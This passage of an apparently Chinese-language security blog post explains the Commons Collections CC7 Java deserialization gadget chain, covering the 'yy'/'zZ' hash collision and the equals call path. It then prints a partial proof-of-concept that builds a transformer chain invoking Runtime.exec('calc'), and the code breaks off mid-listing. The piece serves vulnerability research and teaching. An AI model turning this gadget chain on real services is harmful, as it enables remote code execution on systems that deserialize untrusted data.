 接着看看if里面的判断，要求`e.hash == hash`，这里的e值为`tab[index]`，也就是第一组传入的值，这里的hash是通过`key.hashCode()`获取的，也就是说要put两个hash值相等的元素进去才行
在java中，`yy`和`zZ`的hash值恰好相等
![](https://img-blog.csdnimg.cn/2cee3acc9f4448bb9121365139701004.png)
#### AbstractMap
`AbstractMap#equals`调用了`m.get()`，而m是根据传入的对象获取的，也就是说如果传入的是LazyMap类对象，实际调用的是父类`AbstractMapDecorator`的equals函数
![](https://img-blog.csdnimg.cn/53d1d7a9d20d4e4887104e438a3581ac.png)
跟进到`AbstractMapDecorator#equals`，这里的map是可控的
![](https://img-blog.csdnimg.cn/7f4036f02af841f2bdb08f02f2dd2af4.png)

### 攻击构造
POC：
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class cc7 {
    public static void main(String[] args) throws IllegalAccessException, NoSuchFieldException, IOException, ClassNotFoundException {

        Transformer[] fakeTransformers = new Transformer[] {};

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] {"calc"}),
        };

        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1);

        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1);

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1);
        hashtable.put(lazyMap2, 2);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        lazyMap2.remove("yy");
        try{
```